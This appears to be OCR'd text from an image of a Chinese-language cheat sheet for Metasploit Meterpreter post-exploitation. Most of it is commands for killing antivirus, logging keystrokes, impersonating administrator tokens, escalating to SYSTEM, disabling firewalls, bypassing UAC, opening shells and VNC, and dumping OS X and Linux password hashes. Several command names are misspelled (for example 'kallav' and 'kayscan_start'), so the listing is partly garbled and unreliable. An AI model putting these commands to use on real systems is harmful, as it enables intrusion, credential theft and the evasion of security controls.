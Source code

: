 通过meterpreter的killav脚步来杀死目标主机运行的杀毒软件进程。

meterpreter>run kallav

针对一个特定的进程捕获目标主机上的键盘记录：

meterpreter>ps

meterpreter>migrate 1436

meterpreter>kayscan_start

meterpreter>kayscan_start

meterpreter>keyscan_dump

meterpreter>kayscan_stop

使用匿名方式来假冒管理员：

meterpreter>use incognito

meterpreter>list_tokens -u

meterpreter>use priv

meterpreter>getsystem

meterpreter>list_tokens -u

meterpreter>impersonate_token IHAZSECURITY\\Admininistrator

查看目标主机都采取了那些防范保护措施，列出帮助菜单，关闭防火墙以及其它我们发现的保护措施。

meterpreter>run getcountermeasure

meterpreter>run getcountermeasure -h

meterpreter>run getcountermeasure -d -k

识别被控制的主机是否是一台虚拟机。

meterpreter>run checkvm

在一个meterpreter会话界面中使用cmd shell。

meterpreter>shell

获取目标主机的图形界面（VNC）.

meterpreter>run vnc

使正在运行的meterpreter界面在后台运行。

meterpreter>background

绕过windows的用户账户控制（UAC）机制。

meterpreter>run post/windows/escalate/bypassuac

导出苹果OS-X系统的口令哈希值。

meterpreter>run post/osx/gather/hashdump

导出linux系统的口令哈希值。

meterpreter>run post/linux/gather/hashdump
